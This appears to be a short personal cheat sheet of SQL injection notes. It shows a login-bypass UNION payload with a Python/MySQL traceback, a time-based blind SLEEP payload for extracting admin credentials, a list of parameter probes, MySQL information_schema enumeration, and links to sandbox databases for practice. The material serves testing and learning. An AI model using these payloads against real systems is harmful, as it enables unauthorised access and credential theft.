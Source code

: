 SQLI

## Tips 

- If you try an injection and you have a good error message, analyze it before going on.

## Example of an error with a login screen
 
- Payload : ```' UNION select table_schema,table_name FROM information_Schema.tables;#```
- Error : 
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
OperationalError: (1222, 'The used SELECT statements have a different number of columns')
```

Here we can see that there is a select on the admin table. So if I change my payload with this information, and an always true statement :
username: `' UNION select 1 FROM admins WHERE 1=1;#`
pass: `1`
We are logged in !

## Blind SQLI with sleep extracting username and password on login screen

- Always with our previous login screen, we will try to extract the username
- `'UNION SELECT SLEEP(1*CHAR_LENGTH(username)) FROM admins;#`

## List
```
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'  <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```

---


## Sandboxes databases
By @hackerscrolls

SQL Fiddle (sqlfiddle.com)
DB Fiddle (db-fiddle.com)
EverSQL (eversql.com)

EverSQL supports:

Oracle
MySQL
MariaDB
PostreSQL
MS SQL Server
Percona Server
Amazon Aurora MySQL

DB Fiddle supports:

MySQL
SQLite
PostgreSQL
(multiple versions)

SQL Fiddle supports:

Oracle
SQLite
MySQL
PostgreSQL
MS SQL Server 2017

## Useful ones in MySQL

current_user()
version()
database()


### information_schema.columns table

table_name / column_name (you can use CONCAT : UNION SELECT 1,2,concat(table_name, ':', column_name) ...) FROM information_schema.columns

Then use the value from column_name to found useful information

SELECT * from <column_name>